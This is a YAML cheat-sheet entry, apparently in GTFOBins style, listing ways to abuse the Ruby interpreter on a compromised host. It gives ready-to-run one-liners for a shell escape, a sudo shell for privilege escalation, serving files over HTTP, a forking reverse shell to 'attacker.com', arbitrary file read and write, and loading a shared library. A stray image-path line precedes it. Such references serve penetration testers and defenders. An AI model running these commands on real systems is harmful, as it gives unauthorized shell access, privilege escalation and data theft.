 ```yaml
---
functions:
  execute-interactive:
    - code: ruby -e 'exec "/bin/sh"'
  sudo-enabled:
    - code: sudo ruby -e 'exec "/bin/sh"'
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("data") }'
  load-library:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
---
```

